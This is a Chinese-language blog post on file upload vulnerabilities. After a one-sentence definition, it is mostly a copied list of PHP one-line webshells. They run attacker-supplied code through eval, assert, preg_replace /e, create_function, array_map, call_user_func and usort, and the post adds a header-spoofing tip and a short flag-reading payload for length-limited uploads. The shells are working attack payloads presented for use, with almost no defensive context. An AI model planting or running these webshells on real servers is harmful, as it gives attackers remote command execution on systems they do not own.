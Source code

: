 ```yaml
---
title: 文件上传漏洞
tags:
  - web攻防
  - web漏洞
categories: web攻防
abbrlink: 154257042
date: 2024-04-21 15:52:41
---
```


# 文件上传
文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。

**一句话木马大全：**(搬运自https://blog.csdn.net/qq_43390703/article/details/104858705)
```
##PHP：
注意：限制内容长度时可以将GIF89a换成BM，木马写成<?=`tac /f*`;

<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
```